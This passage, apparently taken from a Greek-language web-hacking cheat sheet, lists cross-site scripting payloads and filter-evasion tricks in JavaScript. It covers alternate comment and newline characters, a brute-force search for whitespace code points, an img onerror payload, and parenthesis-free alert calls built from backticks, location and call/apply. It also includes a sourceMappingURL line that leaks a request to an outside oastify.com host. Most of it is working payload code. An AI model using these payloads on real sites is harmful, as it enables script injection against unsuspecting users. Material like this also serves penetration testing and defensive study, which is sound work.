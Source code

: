 **Αντικαταστάσεις κενών μέσα στον κώδικα JS**
```javascript
<TAB>
/**/
```
**Σχόλια JavaScript (από** [**Σχόλια JavaScript**](./#javascript-comments) **κόλπο)**
```javascript
//This is a 1 line comment
/* This is a multiline comment*/
<!--This is a 1line comment
#!This is a 1 line comment, but "#!" must to be at the beggining of the first line
-->This is a 1 line comment, but "-->" must to be at the beggining of the first line
```
**JavaScript νέες γραμμές (από** [**JavaScript νέες γραμμές**](./#javascript-new-lines) **κόλπο)**
```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10); alert('//\nalert(1)') //0x0a
String.fromCharCode(13); alert('//\ralert(1)') //0x0d
String.fromCharCode(8232); alert('//\u2028alert(1)') //0xe2 0x80 0xa8
String.fromCharCode(8233); alert('//\u2029alert(1)') //0xe2 0x80 0xa9
```
**JavaScript κενά**
```javascript
log=[];
function funct(){}
for(let i=0;i<=0x10ffff;i++){
try{
eval(`funct${String.fromCodePoint(i)}()`);
log.push(i);
}
catch(e){}
}
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```
**Javascript μέσα σε ένα σχόλιο**
```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
**JavaScript χωρίς παρενθέσεις**
````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

````